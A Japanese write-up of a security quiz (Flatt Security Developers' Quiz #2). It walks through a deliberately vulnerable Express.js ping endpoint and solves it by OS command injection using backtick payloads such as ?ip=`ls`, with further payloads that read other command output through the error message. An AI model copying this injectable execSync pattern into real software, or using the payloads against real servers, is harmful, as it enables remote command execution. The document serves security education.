 # Flatt  Security Developers' Quiz #2

## 設問
https://twitter.com/flatt_security/status/1549710781918617600

脆弱性のある環境が与えられ、`ls`コマンド実行時に判明するファイル名の提出が求められている。

```JavaScript
const express = require("express");
const { execSync } = require("child_process");
const app = express();

/*
    local ping check
*/
app.get("/", function(req, res) {
    const ip_address = req.query.ip;

    if(!ip_address){
        res.send("?ip=[your_ip]");
        return;
    }

    if(ip_address.length > 16){
        res.send("Error! IP is too long.");
        return;
    }

    if(/[!@#$%\^&*()\-_+=\[\] {}'";:,:?~\\]/.exec(ip_address)){
        res.send("Error! Your request is filtered!");
        return;
    }

    const cmd = "sh -c 'ping -c 1 " + ip_address + "' 2>&1 >/dev/null; true";
    const stderr = execSync(cmd, {"timeout": 1000});
    if(stderr != ""){
        res.send("Error! " + stderr);
        return;
    }

    res.send("Your IP is in a good state!");
});

app.listen(1337);
```

## 実行時の挙動
```
https://example.com/?ip=hogehoge
```
このような形式で受け取った値`hogehoge`に対してpingが実行される。


```
https://example.com/?ip=127.0.0.1
```

NG要素がないため、「Your IP is in a good state!」と結果出力される。
pingの実行結果、標準出力は画面には返ってこない。

```
https://example.com/?ip=---
```

NGな文字が含まれるので「Error! Your request is filtered!」と結果表示される

```
https://example.com/?ip=xxx
```

pingが実行されるがエラーとなる場合は標準エラー出力「Error! ping: xxx: Temporary failure in name resolution 」が画面に現れる。

このとき、入力値`xxx`がそのまま画面に現れることがポイントだと思われる。


## 入力条件

- 16文字以下であること
- 入力可能な記号が制限されているが、以下は使用できる
  - &
  - |
  - `
  - <
  - \>

### アプローチ
- 複数のコマンドを連結する場合に`&`や`|`、もしくはそれらを2個つなげた記法が使えないか
- `>`が使用できるので、`1>&2`などを付けたし、標準出力も標準エラーに加えられないか
- Bashで使用できる`<<<`でコマンド結果をpingに引き渡せないか

ここまで考えたところで、入力値`xxx`がそのまま画面に表示されたことを思い出す。

`ls`の実行結果をpingのリクエスト先に指定できればよいだけだ。

```
http://example.com/?ip=`ls`
```

このリクエストにより内部的には以下のコマンドが実行される。
```sh
sh -c 'ping -c 1 `ls`' 2>&1 >/dev/null;true
```
`ls`で取得できたファイル名をホスト名に見立ててpingコマンドが実行されるため、当然エラーとなる。
```
Error! ping: wow_congrats_you_executed_a_system_command.txt: Name or service not known
```
期待通り、ファイル名取得することができた。

### その他
前述の通り、他にも使用可能な記号がある。

`ls`では１つのファイル名しか表示されなかったが、`<`を使いほかのコマンドを組み合わせてみる。
```
http://example.com/?ip=`cat`<`ls`
```
これで同じディレクトリの他のファイル名も取得できる。

スペースが不可のためオプションは付けられないが、文字数の許す限りでほかのコマンド結果もレスポンスに返すことができる。
```
http://example.com/?ip=`echo`<`df`
```

